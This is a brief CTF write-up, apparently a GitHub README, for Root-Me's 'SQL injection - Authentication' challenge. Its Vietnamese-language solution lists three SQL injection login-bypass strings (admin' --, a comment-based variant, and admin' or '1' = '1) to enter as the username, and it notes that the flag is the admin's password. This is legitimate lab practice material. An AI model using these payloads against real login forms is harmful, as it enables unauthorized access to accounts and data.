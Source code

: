 # SQL injection - Authentication

[![Hits](https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https%3A%2F%2Fgithub.com%2FTienNHM%2Froot-me-ctf%2Ftree%2Fmaster%2FWeb-server%2FSQL%2520Injection%2FSQL%2520injection%2520-%2520Authentication&count_bg=%2379C83D&title_bg=%232D8FFF&icon=markdown.svg&icon_color=%23092753&title=Visitors&edge_flat=false)](https://hits.seeyoufarm.com)

\*\*\* Link: http://challenge01.root-me.org/web-serveur/ch9/

## Request

![](form.PNG)

# Solution

```
    - Tấn công SQL injection với username là một trong những lệnh sau:
    + admin' --
    + *admin' */
    + admin' or '1' = '1

    Chọn password tuỳ ý.

    Cờ sẽ là password của admin.

```
